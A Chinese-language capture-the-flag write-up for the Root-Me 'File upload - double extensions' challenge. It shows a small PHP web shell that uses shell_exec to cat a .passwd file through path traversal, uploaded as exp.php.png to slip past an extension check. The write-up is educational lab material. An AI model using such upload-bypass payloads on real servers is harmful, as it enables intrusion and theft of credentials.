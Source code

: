 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-double-extensions)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/fileupload-doubleextensions/)]

------

题目给出了两个提示：

- 双重后缀绕过（double extensions）
- 目标文件 .passwd 在 web 服务的根路径

上传一个图片测试一下，页面会给出图片的 URL 地址，点开后可以打开原图，猜测这或许是一个可利用点。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/01.png)

又从给出的 URL 地址知道，上传的文件距离 web 服务根目录的位置，因此可以构造一个路径穿越的 payloads 文件，文件名为 `exp.php`：

```php
<?php
	// exp.php.png
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

但因为上传会检测文件后缀，无法直接上传。把文件更名为 `exp.php.png` 尝试绕过检测机制，上传成功。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/02.png)

上传成功后，打开这个伪造的图片文件，发现它被作为 php 文件解析了（应该是 web 设置的问题），成功获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B14%5D%20%5B20P%5D%20File%20upload%20-%20double%20extensions/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
